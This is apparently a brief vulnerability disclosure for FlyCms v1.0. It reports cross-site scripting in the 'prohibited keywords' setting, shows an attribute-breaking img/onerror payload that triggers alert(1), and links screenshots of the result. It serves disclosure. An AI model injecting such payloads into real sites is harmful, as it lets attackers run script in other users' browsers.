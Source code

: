 target:https://github.com/sunkaifei/FlyCms
version: v1.0

Xss exists in prohibited keywords

![1](https://github.com/Lihuannn/cms/assets/44634230/8c8db2eb-a458-4f54-bf9d-d9949d7832e3)


Poc:

```
"><img src=1 onerror=alert(1)>
```

Successed

![2](https://github.com/Lihuannn/cms/assets/44634230/bc010f92-0b2a-4c8c-8fd0-f4c9e156eeab)
